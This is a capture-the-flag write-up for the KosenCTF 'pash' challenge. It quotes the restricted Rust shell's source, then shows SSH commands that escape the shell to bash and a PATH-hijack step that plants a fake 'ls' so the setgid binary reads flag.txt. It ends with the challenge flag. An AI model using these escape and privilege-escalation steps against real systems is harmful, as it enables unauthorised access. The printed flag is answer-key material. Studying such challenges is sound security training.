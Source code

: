# pash
- Category: misc pwn
- Score: 373pts
- Solves: 12 solves
- Author: ptr-yudai

> ssh pwn@pwn.kosenctf.com -p9022
> password: guest


## Description

```
Last login: Sun Sep  6 14:28:45 2020 from xxxxxxxxxxxxx
***** PASH - Partial Admin SHell *****
  __      _  ,---------------------.  
o'')}____// <' Only few commands   |  
 `_/      )  |      are available. |  
 (_(_/-(_/   '---------------------'  

(admin)$ ls
total 424K
dr-xr-x--- 1 root pwn   4.0K Sep  3 16:04 .
drwxr-xr-x 1 root root  4.0K Sep  3 16:04 ..
-rw-r--r-- 1 root pwn     61 Sep  3 16:04 .bash_profile
-r--r----- 1 root admin   49 Sep  3 14:49 flag.txt
-r-xr-sr-x 1 root admin 403K Sep  3 14:49 pash
-rw-rw-r-- 1 root pwn   2.4K Sep  3 14:49 pash.rs
(admin)$ cat pash.rs
use std::collections::HashMap;
use std::io::{self, Write};
use std::process::Command;

fn cmd_whoami(_args: &mut std::str::SplitWhitespace) {
    let mut child = Command::new("whoami")
        .spawn()
        .expect("Failed to execute process");
    child.wait().expect("Failed to wait on child");
}
fn cmd_ls(_args: &mut std::str::SplitWhitespace) {
    let mut child = Command::new("ls")
        .arg("-lha")
        .spawn()
        .expect("Failed to execute process");
    child.wait().expect("Failed to wait on child");
}
fn cmd_pwd(_args: &mut std::str::SplitWhitespace) {
    let mut child = Command::new("pwd")
        .spawn()
        .expect("Failed to execute process");
    child.wait().expect("Failed to wait on child");
}
fn cmd_cat(args: &mut std::str::SplitWhitespace) {
    let path;
    match args.next() {
        None => path = "-",
        Some(arg) => path = arg
    }
    if path.contains("flag.txt") {
        println!("ฅ^•ﻌ•^ฅ < RESTRICTED!");
        return;
    }
    let mut child = Command::new("cat")
        .arg(path)
        .spawn()
        .expect("Failed to execute process");
    child.wait().expect("Failed to wait on child");
}
fn cmd_exit(_args: &mut std::str::SplitWhitespace) {
    std::process::exit(0);
}

fn main() {
    let mut f = HashMap::<String, &dyn Fn(&mut std::str::SplitWhitespace)->()>::new();
    /* set available commands */
    f.insert("whoami".to_string(), &cmd_whoami);
    f.insert("ls".to_string(), &cmd_ls);
    f.insert("pwd".to_string(), &cmd_pwd);
    f.insert("cat".to_string(), &cmd_cat);
    f.insert("exit".to_string(), &cmd_exit);

    println!("***** PASH - Partial Admin SHell *****");
    println!("  __      _  ,---------------------.  ");
    println!("o'')}}____// <' Only few commands   |  ");
    println!(" `_/      )  |      are available. |  ");
    println!(" (_(_/-(_/   '---------------------'  \n");

    loop {
        /* read input */
        print!("(admin)$ ");
        io::stdout().flush().unwrap();
        let mut s = String::new();
        io::stdin().read_line(&mut s).ok();

        /* execute command */
        let mut args = s.trim().split_whitespace();
        let cmd = args.next().unwrap();
        if f.contains_key(cmd) {
            (f.get(cmd).unwrap() as &dyn Fn(&mut std::str::SplitWhitespace)->())(&mut args);
        } else {
            println!("No such command: {}", cmd);
        }
    }
}
```

So we can't directly cat `flag.txt` huh...


## Solution

After some investigation, I found that we can do Port Forwarding, SCP to the box, and my teammates can get a normal `bash` shell from the server.

```bash
# port forwarding
ssh -L 3211:127.0.0.1:22 pwn@pwn.kosenctf.com -p9022

# get bash
ssh -t pwn@pwn.kosenctf.com -p9022 "bash"
```

We can get a normal bash shell with this command as the chal setup `pash` shell using `.bash_profile`.

However, I still can't read the `flag.txt` as the account `pwn` does not have the permission.

```
-r--r----- 1 root admin   49 Sep  3 14:49 flag.txt
-r-xr-sr-x 1 root admin 403K Sep  3 14:49 pash
```

The `pash` executable have the `sgid` set tho... but from the source code it does not read the `flag.txt` at all...

Wait, maybe I can replace `ls` executable and make pash call it?

Here is the solution

```bash
mkdir -p /tmp/some_very_random_value # apparently they limit ppl from copying solutions by setting the perms
cd /tmp/some_very_random_value

# Randomly get a read file c program online: https://www.programmingsimplified.com/c-program-read-file
# Compile the file and send it to /tmp/some_very_random_value/ls

# LOCAL:  gcc -o a.out tmp.c
# LOCAL:  base64 -w 0 a.out

echo "<file_content>" | base64 -d > ls
chmod +x ls

export PATH=/tmp/some_very_random_value:$PATH

/home/pwn/pash # call the program and run ls

# you can press ctrl-z after calling `ls` in pash, so you can see the sgid permission sent to our process
pwn@f2b8f62b41d2:/tmp/some_very_random_value$ ps -o pid,euid,ruid,suid,egid,rgid,sgid,cmd
  PID  EUID  RUID  SUID  EGID  RGID  SGID CMD
10579  1000  1000  1000  1000  1000  1000 bash
10617  1000  1000  1000   999  1000   999 /home/pwn/pash
10618  1000  1000  1000   999  1000   999 ls -lha
10619  1000  1000  1000  1000  1000  1000 ps -o pid,euid,ruid,suid

```

The flag is: `KosenCTF{d1d_u_n0t1c3_th3r3_3x1sts_2_s0lut10ns?}`

I didn't come up with another solution so lets me read writeups...
